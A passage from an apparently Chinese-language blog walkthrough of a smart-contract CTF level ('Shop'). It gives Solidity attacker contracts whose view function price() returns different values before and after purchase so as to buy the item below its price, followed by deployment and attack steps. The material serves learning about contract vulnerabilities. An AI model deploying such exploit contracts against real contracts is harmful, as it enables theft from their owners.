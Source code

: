 ```
    }

    function price() external view returns (uint){
        if (!shop.isSold()){
            return 101;
        }else{
            return 99;
        }
    }

}
```

此时由于在请求`price()`前后`Shop`合约的`isSold`变量已发生了变化，所以我们可以基于该变量设置`if`规则，这种方法是适用的。

### 本身变量的变化
如果我们依赖于`now`、`timestamp`等变量，的确可以实现在不同区块下`view`类型的函数会返回不同结果，然而，在同一区块下，似乎仍难以区分开来。

我们有如下合约:

```
contract attacker2 {

    Shop shop;
    uint time;

    constructor(address _addr) public {
        shop = Shop(_addr);
        time = now;
    }

    function attack() public {
        shop.buy();
    }

    function price() external view returns (uint){
        return (130-(now-time));
    }

}
```
在不同时刻调用`view`类型的`price`函数，返回的值是有区别的。然而，在同一区块呢，很难去达成区别，所以是不够适用的。
![115](https://img-blog.csdnimg.cn/49cfb30ead59485f97e2dcefa3f6a5f9.png#pic_center)

![106](https://img-blog.csdnimg.cn/6d61f478c1ac423da9dd5f37e971c456.png#pic_center)

## 合约交互
先查看合约当前状态。
![合约当前状态](https://img-blog.csdnimg.cn/b9da6f932ef149708ab768ab4e8e5f18.png#pic_center)
部署攻击合约，合约地址为`0x8201E303702976dc3E203a4D3cDe244D522274bf`。
![部署攻击合约](https://img-blog.csdnimg.cn/f234b804f02c4bb9b916432c92d3cefa.png#pic_center)
此时调用`price`方法，返回`101`。
![获取当前价格](https://img-blog.csdnimg.cn/d2fd489bfc644fca8538ae963e7161b8.png#pic_center)
调用`attack`方法发起进攻。调用完后刷新目标合约状态。此时商品已卖出，价格为99。
![刷新目标合约状态](https://img-blog.csdnimg.cn/47c3db13fac84268b406a8fa0c8ddea2.png#pic_center)
提交实例，本关卡完成！
![本关卡完成！](https://img-blog.csdnimg.cn/a0ff00a9e6544e15a0fb6c827b1f3017.png#pic_center)
## 总结
有时候从另一个角度去想问题，这和我们常规理解的可能不一样。